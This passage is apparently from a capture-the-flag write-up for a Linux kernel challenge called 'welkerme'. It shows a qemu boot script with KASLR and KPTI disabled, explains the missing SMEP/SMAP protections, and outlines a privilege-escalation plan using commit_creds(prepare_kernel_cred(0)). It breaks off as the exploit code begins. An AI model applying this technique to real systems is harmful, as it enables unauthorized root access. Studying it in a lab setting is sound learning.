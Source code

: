 ```c

  if ((fd = open("/dev/welkerme", O_RDWR)) < 0) {
    perror("/dev/welkerme");
    exit(1);
  }

  ret = ioctl(fd, CMD_ECHO, 12345);
  printf("CMD_ECHO(12345) --> %d\n", ret);

  ret = ioctl(fd, CMD_EXEC, (long)func);
  printf("CMD_EXEC(func) --> %d\n", ret);

  close(fd);
  return 0;
}
```
When we run this we see the output - 
```bash
CMD_ECHO(12345) --> 12345
CMD_EXEC(func) --> 31337
```

## Mitigations
If we look at the scripts thats booting up the kernel in qemu - 
```bash
#!/bin/sh
exec qemu-system-x86_64 \
     -m 64M \
     -nographic \
     -kernel vm/bzImage \
     -append "console=ttyS0 loglevel=3 oops=panic panic=-1 nopti nokaslr" \
     -no-reboot \
     -cpu qemu64 \
     -monitor /dev/null \
     -initrd vm/rootfs.cpio \
     -net nic,model=virtio \
     -net user
```
We see that there is no `kaslr` (its almost like ASLR but in kernel space) so symbols like `prepare_kernel_cred` and `commit_creds` have fixed address which we can use. There is no `kpti` so userspace and kernel space page tables are not isolated from each other, there's also no `SMEP` and `SMAP` so userspace pages can be accessed and executed

## Exploit Plan
The challenge can be simply solved by passing an address of a function that calls `commit_creds(prepare_kernel_cred(0))` and returns back to userspace from where we can execute a shell or read the flag from the calling process

## Exploit
I took a lot of code from `lkmidas` post which was linked in the README of the challenge and created this exploit -
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

```